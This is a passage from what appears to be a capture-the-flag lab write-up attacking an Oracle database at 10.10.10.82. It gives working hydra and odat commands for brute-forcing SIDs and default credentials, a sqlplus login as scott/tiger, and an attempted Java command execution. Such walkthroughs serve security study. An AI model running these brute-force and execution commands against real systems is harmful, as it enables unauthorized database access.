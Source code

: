 Let's first bruteforce SID(Like a DB name) using hydra:

`hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521  10.10.10.82 oracle-sid`


![](https://i.imgur.com/ha0Wxro.png)


Hydra finds several SID names and we just need one of them to bruteforce user credentials.


#### Targeting Accounts

I will user metasploit's **oracle_default_userpass.txt** to perform user credentials bruteforce on SID **XE**:

`odat passwordguesser -s 10.10.10.82 -d XE --accounts-file /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt`

![](https://i.imgur.com/N7FyENH.png)



However, it seems like credentials are not passed properly。

I will use **awk** to have usernames and passwords in separate files:

`awk '{print $1 > "oracle_users.txt"; print $2 > "oracle_pass.txt"}' oracle_default_userpass.txt`

Now using separate user-list and password list, I can obtain valid credentials: (**scott/tiger**)


`sudo odat passwordguesser -s 10.10.10.82 -d XE --accounts-files /usr/share/metasploit-framework/data/wordlists/oracle_users.txt /usr/share/metasploit-framework/data/wordlists/oracle_pass.txt`

![](https://i.imgur.com/bEdIv2e.png)


## Shell as iis apppool

Now using **sqlplus**, I can access Oracle Database:

`sqlplus scott/tiger@10.10.10.82/XE`

![](https://i.imgur.com/pcqaA5j.png)


Using the following command, I can query usernames on DB:

`SELECT username FROM all_users WHERE username NOT IN ('SYS', 'SYSTEM');`

![](https://i.imgur.com/56St9JP.png)


Abusing Java for RCE fails since Java is not installed on the system:

`odat java -s 10.10.10.82 -U scott -P tiger -d XE --exec whoami`

![](https://i.imgur.com/7Eusvbe.png)

